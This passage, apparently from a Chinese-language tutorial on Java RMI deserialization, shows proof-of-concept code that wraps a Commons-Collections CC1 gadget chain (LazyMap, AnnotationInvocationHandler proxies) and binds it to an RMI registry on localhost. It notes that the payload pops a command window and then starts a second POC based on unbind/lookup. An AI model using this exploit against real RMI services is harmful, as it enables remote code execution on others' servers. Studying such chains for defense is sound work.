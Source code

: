 ```java
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
        // 这个地方和原来的CC1写法不一样，要把LazyMap.class.getInterfaces()改成new Class[]{Map.class}，LazyMap.class.getInterfaces()默认会过去到两个接口的Class，分别是Map和Serializable，但是这里只要一个Map才能触发
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);

        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        Remote r = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, invocationHandler));
        registry.bind("test",r);
    }
}
```

来弹个cmd窗口

![image-20241125191040610](./main.assets/rmi9.png)

### POC2 - 基于unbind/looup
